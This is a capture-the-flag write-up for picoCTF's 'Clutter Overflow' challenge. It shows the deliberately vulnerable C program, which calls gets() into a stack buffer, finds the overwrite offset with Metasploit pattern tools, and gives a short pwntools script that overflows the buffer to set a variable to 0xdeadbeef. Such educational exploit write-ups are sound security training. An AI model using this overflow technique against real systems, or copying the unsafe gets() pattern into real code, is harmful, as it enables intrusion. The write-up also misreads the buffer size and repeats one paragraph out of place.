





<h1><b>Clutter Overflow</b> Challange from PicoCTF</h1>
<h2>Writup</h2>
Video Writup: https://www.youtube.com/watch?v=rdWtcwosHrk <br>
challange link: https://play.picoctf.org/practice/challenge/216?category=6&page=1 <br>
points : 150

<b>Description</b>: Clutter, clutter everywhere and not a byte to use. 

```
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
```
From the very first look, we can see at line number 50 gets function is used, which is vulnerable for Buffer overflow vulnerability, so what program doing is it declared global variable GOAL 0xdeadbeef, and code = 0 in the main function. first, it will ask for the user input, whose size expected by the program should be max. 100 char. now there is an if condition which checks code == GOAL ( which is false from the declaration of variables from the program), if it is true it will cat the flag.txt, otherwise, it will exit after printing code value.



If we put 300 char long string as an input, the value of the code variable get overwritten, so what we can do is we can try to overwrite the value of the code variable in the stack to 0xdeadbeef, so if the condition becomes true and the program will cat the flag.txt

<h1><b>EXPLOITATION</b></h1>
for overwriting the value of variable code, we must know after putting how many numbers of characters, the value of code is overwritten. for that, we can use Metasploit-framework's exploits. creating pattern string of 300 char:

> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300

<b>output</b>: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
so lets put this pattern string in chall as an input



so after putting above pattern, value of code variable become 0x6a41396941386941 , to find the exact match of this sting within the pattern we will use another
metasploit-framework's exploit

> /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 300 -q 6a41396941386941



SO what we have done here is, we establish a remote TCP connection with the server, then we did s.recvline() to receive the banner and question. then we crafter our payload, since we need to make the if condition true to get the content of flag.txt, we have added pwn.p64(0xdeadbeef) after 264 char. so it will make the value of the code variable the same as the GOAL variable. after sending the payload, we will have our flag.

So from the above, we have confirmed that we can overwrite the value of code variable with the chars comes after putting 264 chars.
so we can write an small pwn exploit, to do this

```
import pwn

host = "mars.picoctf.net"
port = 31890
s = pwn.remote(host,port)
s.recvline()
s.recvline()
s.recvline()
payload = b'A'*264 + pwn.p64(0xdeadbeef)
s.sendline(payload)
s.interactive()
s.close()
```
SO what we have did here is, we establish a remote tcp connection with server, then we did s.recvline() to recieve the banner and question. 
then we crafter our payload, since we need to make the if condition true to get the content of flag.txt, we have added pwn.p64(0xdeadbeef) after 264 char.
so it will make the value of code variable same as GOAL variable. after sending the payload, we will have our flag.

<br>
  <b> Thank You</b>
                                                                                                              
